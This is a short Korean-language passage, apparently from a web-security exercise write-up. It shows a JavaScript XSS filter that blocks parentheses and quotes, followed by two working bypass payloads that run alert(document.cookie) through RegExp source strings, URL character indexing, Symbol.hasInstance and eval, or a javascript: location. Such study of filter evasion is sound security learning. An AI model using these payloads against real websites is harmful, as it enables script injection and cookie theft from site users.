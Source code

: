     <br>
    
3. (, ), ", ', \` 필터링

	`alert(document.cookie)` 실행

	**Filtering function**
    ```javascript
	function XSSFilter(data){
     	if(/[()"'`]/.test(data)){
          return false;
  		}
  		return true;
	}
	```
    
    **Bypass**
    ```javascript
	// 1) RegExp & URL.toString & Symbol.hasInstance
	/alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};

	// 2) javascript 스키마로 location 변경 & RegExp & URL.toString
	location=/javascript:/.source + /alert/.source + [URL+0][0][12] + /document.cookie/.source + [URL+0][0][13];
	```